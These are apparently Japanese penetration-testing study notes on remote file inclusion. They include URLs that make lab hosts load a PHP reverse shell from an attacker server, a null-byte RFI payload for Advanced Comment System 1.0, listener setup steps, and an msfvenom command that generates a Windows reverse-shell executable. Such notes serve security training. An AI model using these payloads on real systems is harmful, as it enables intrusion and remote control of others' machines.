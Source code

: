   ```
  http://10.11.1.35/section.php?page=http://192.168.119.167/php-reverse-shell.php
  ```

  



## RFI（Remote File Inclution）

RFIという脆弱性があることが怪しいと思ったら、以下流れで検証をするとよい

* kaliにhttp.serverを立てる(pythonの方がリクエスト結果が見やすい)
  ※80や443といったoutboundが開いていやすいportでサーバーを立てること
* exploitの説明を**よく読み**、どのようなリクエストURIであればhttp.serverに通信が来るのかを確認する
* exploitコードを用意（phpがほとんど）し、どのような拡張子であればコード実行されるのかを確認する
* リバースシェルで待ち受ける



## RFI(advanced_comment_system 1.0)

pythonのPoC

https://packetstormsecurity.com/files/165108/Advanced-Comment-System-1.0-Remote-Command-Execution.html

RFIの脆弱性コマンド

https://www.exploit-db.com/exploits/9623

```
http://10.11.1.8/internal/advanced_comment_system/index.php?ACS_path=http://192.168.119.124/reverse.php%00
```

※`/advanced_comment_system/`というパスが必須。それでURLアクセスできるかをまずは確認すること



## hosts

hostsを設定しないとアプリがうまく動かない場合も多いのでhosts設定できる場合する

```bash
 sudo vi /etc/hosts
 
 -------
 172.50.3.126    management_portal
```



## IIS + FTP

FTPのanonymousログインができる場合、IISのURIの中でディレクトリトラバーサルの脆弱性がある場合がある。IISの場合,asp(or aspx)ファイルだと動作することが多い

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=10.11.1.14 LPORT=443 -f exe > reverse.exe
```
